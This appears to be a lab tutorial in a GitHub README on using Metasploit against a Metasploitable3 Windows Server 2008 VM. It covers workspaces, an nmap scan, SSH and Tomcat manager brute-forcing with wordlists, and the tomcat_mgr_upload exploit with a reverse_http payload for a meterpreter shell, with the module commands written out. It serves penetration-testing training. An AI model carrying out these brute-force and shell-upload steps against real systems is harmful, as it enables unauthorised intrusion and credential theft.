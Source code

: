 
We will first look into Workspaces in Kali Linux. Workspaces are used to separate the work you are doing. When you are trying to exploit a machine, you would want to enumerate the machine. Enumeration basically means gathering as much information that you can using passive scanning or OSINT. 

Inside msfconsole, when you type $`workspace`, it will tell you which workspace you are in. If you want to know how many workspaces you have and which one you are working in you use $`workspace -v`. 

If you need to create a new workspace then you type $`workspace -a test`. The asterisk symbol is pointing to the workspace that you are currently in. If you need to delete a workspace then $`workspace -d name`. If you want to change the workspace then you just type $`workspace name`

We do this in order to keep track of all the work that we are doing without getting things too confusing between them. If we need to learn more about workspace $`help workspace`

 Inside msfconsole, we run an nmap scan as now we are trying to exploit another machine which is in the same network. In our case metasploitable3 which is a Windows Server 08. So we will run an nmap scan in order to find out more about the scan. Nmap is an aggressive scanner so we do not use Nmap in the wild unless we want to go to jail. DO NOT USE IT WITHOUT PERMISSION. 
 
 $` msf6 > db_nmap -p- -sV -O 10.0.2.6` (the -p stands for open ports, -sV stands for services running, -O stands for the Operating system, the IP address will be the one of your target machine, in our case the Windows Server 08 Metasploitable3) Use the Ip address of the machine you are trying to find out. Nmap takes a while for the results to come back, so be patient. 
 
 If we type $`hosts` or $`notes` or $`services` it will give us more information such as the os name, IP address and mac address of the target machine and the pupose as well, whether it is a workstation or a server. 
 
 `Bruteforcing(SSH) Into Windows8 with Kali Linux` 
 
 Once we run an nmap we will get a list of services that are open and ports that are open. In the enumeration process when we find the information we can look for ways to bruteforce. When we ran nmap scan we can see in our particular Windows Server 08 that `ssh` port is open, so we will try and brute force the machine. We will now look for auxillary ssh scanners. 
 
 Our first step here is to look for aux ssh in msfconsole. We type $`msf6 > search type:aux ssh` We will get a list of scanners. We will find the one that will help us with our intent. In our case we are trying to brute force we will use the $`auxillary/scanner/ssh/ssh_login`. We either type $` use and the whole name or number in our case use 15`. If successful, we will see the scanner in red, which means we are inside it now. We will do $`show options` so that we can see what are the parameters that need to be set in order to get the job done. We will pay special attention to the $`yes` on $`Required` field. 

First thing we need to do is set the rhost. To do so, we type in $`set rhost 10.0.2.8` (In our case the ip address we are trying to ssh into is 10.0.2.8). In this particular case we will also $`set user_as_pass true`. We do this so that from the wordlists, it will try the username as password as well while bruteforcing. Now we will give the exploit the path for the filename which we will be using in order to try different passwords. We do that by typing $`set user_file /usr/share/wordlists/metasploit/unix_users.txt` . We will do show options one more time just to make sure that we have set all the corret parameters. We hit $`run` after this. if successful, it will tell us whether it was successful or not. If we are, then we hit $`ctrl+z` and get out of msfconsole. this only suspends the msfconsole. Once we get out, we will type $`ssh vagrant@10.0.2.8` It will prompt you for your password and you are in. 



`Exploiting an Apache Tomcat Server`

Apache Tomcat is an open-source Java Servlet and Java Server page container that lets developers implement an array of enterprise java applications. Tomcat also runs a HTTP web server environment in which Java code can run. 

So from our enumeration that we did in the workspace, we see that the Apache Tomcat server port 8282 is open. 

 ![open ports](https://user-images.githubusercontent.com/93686063/201373243-96e32798-b879-471e-b704-313bcd199a87.JPG)

After we have run nmap in our target host, we get a list of the IP addresses and the ports that are open, so we can have an idea of the ports that can be exploited. 

If we go to a browser in our kali machine and type in the ip address and port in the following way $`10.0.2.8:8282` This is the Tomcat server page, this is where the tomcat is listening. This would be an example of manual enumeration, we just put in the IP address and the port and we can see what is listening. 

In our last example we used a wordlists but now we will create our own wordlists, this is an example of us already knowing the username and password or trying to guess the username and password based on the OSINT that we have done to accurately guess the password while we are trying to brute force. There are a lot of wordlists out there which can help us to crack passwords. Below is an example of the wordlists we have in Kali Linux with common words used to usernames and passwords. The wordlist can be either a .txt file or .csv file. 



![wordlists](https://user-images.githubusercontent.com/93686063/201375979-c97a72ce-4fa5-4619-8bc0-21a0e8ac0461.JPG)

In order to create a wordlists we will go to the folder metsploit so that we can use the file in order to brute force the machine. We will open a new tab and use the nano command. $`nano hello.txt`. This will open a text file editor where we will use words which we think will be able to brute force the system successfullly. our magic word is $`sploit`. 

Now we go back to metasploit and look for a scanner. We type in $`search type: aux tomcat`. Below are the results. 

![tomcat aux](https://user-images.githubusercontent.com/93686063/201379322-41dd0e8c-fa91-45f1-b9bb-8aaec4d36156.JPG)

Among the options that we have, we will be using the $`mgr_login` module. Either type $`use 7` or $`use the explpit`. Once we are inside the module it will turn red. We will now do $`info` to see what the module does and what we need in order to exploit the module. We will first set the Rhost. $`set rhost 10.0.2.8` and we will set the Rport $`set rport 8282`. THe Rport has to be the port that the tomcat is listening on, if not we have to change it. By default mine was 8080, hence I changed it to 8282. We will also change the user_file to the file we created earlier with words we think will be able to break the machine. We will also set the user_as_pass file as True, so that it tries the same word as username and password. After we set all the parameters, we hit $`run`. The brute force begins and should display the following result. 

![run](https://user-images.githubusercontent.com/93686063/201382661-a9babdd5-0e20-404b-bbe1-ddbd03e30606.JPG)

We can see in the picture above that it found a successful login for our Tomcat Server. Now we will use the credentials we found in order to break into the Tomcat Server. 

We hit $`back` in order to get to the msfconsole. We will look for an exploit to upload a shell to the Server. 

$`msf6 > search type:exploit tomcat_mgr_upload` When we hit this we will find an exploit. We use that exploit. Once we get inside that exploit, like before we hit info in order to find what are the parameters that we need to set in order to exploit the server. 

The usual are $`Rhosts` and $`Rports` that we need to set in order to get the shell. THis one however some extra things such as targets. It will say Available Targets and they are $`0 Java Universal` or $`1 Windows Universal` or $`2 Linux x86`. Since we are exploiting a Windows system we will be using $`1`. 

We also need to set $`HttpPassword` and $`HttpUsername` and this is where the credential we found earlier that we found. $`sploit` is the word we will be using in order to exploit the system that we found in the earlier process. Now we need to change the Payload options. We will type $`set payload as reverse_http` and not $`reverse_tcp`. 

Now in order to set the target we do $`Set Target 1`. we do options we can see the target change. If all of our parameters are correct. We hit $`run` We should get the meterpreter shell. 



